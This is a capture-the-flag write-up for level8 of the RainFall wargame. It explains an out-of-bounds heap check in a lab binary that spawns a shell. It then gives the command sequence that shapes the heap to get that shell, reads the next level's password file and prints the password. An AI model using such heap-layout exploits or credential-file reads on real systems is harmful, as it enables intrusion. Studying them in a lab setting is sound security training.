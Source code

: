 # level8: Heap Layout Exploitation

## Challenge Overview

Level8 presents a program that manages authentication and services, with a vulnerability in its memory access patterns. The program takes string commands as input and allows setting up auth and service variables, then checking them for a login.

## Source Code Analysis

The program maintains two global pointers:

```c
char *auth = NULL;
char *service = NULL;
```

And implements four commands:

```c
// Handle "auth " command
if (strncmp(input_buffer, "auth ", 5) == 0) {
    auth = malloc(4);  // Only allocates 4 bytes!
    // ...initialize and copy input...
}
// Handle "service" command
else if (strncmp(input_buffer, "service", 7) == 0) {
    service = strdup(input_buffer + 7);  // Allocates on heap
}
// Handle "login" command - key vulnerability
else if (strncmp(input_buffer, "login", 5) == 0) {
    // Vulnerability: auth is only 4 bytes but we check 32 bytes past it
    if (auth != NULL && *(int*)(auth + 32) != 0) {
        system("/bin/sh");
    } else {
        fwrite("Password:\n", 1, 10, stdout);
    }
}
```

## Vulnerability

The vulnerability lies in the `login` command logic, which checks memory 32 bytes beyond the `auth` allocation:

```c
if (auth != NULL && *(int*)(auth + 32) != 0) {
    system("/bin/sh");
}
```

The `auth` pointer only points to a 4-byte region, so checking `auth + 32` is an out-of-bounds memory check. This creates an opportunity to manipulate the heap layout to control what's at that location.

## Exploitation

The exploit takes advantage of how heap memory is allocated:

1. Use `auth` to allocate a small buffer (4 bytes)
2. Use `service` with a large input to allocate memory that will overlap with `auth + 32`
3. Use `login` to trigger the shell when the value at `auth + 32` is non-zero

The program helpfully displays the addresses at each step:

```
level8@RainFall:~$ ./level8
(nil), (nil)                # Both pointers start as NULL
auth A                      # Create auth with small content
0x804a008, (nil)           # Now auth is allocated at 0x804a008
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018      # service allocated at 0x804a018
login                      # Call login - the check at auth+32 is non-zero
$                          # Shell granted!
```

Looking at the addresses, we can see:
- `auth` is at 0x804a008
- `service` is at 0x804a018
- The memory at `auth + 32` (0x804a028) will contain non-zero data from our service string

## Getting the Password

Once we have the shell, we retrieve the password:

```bash
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

## Moving to Next Level

Use the password to log in to level9:

```bash
level8@RainFall:~$ su level9
Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
level9@RainFall:~$ 
```
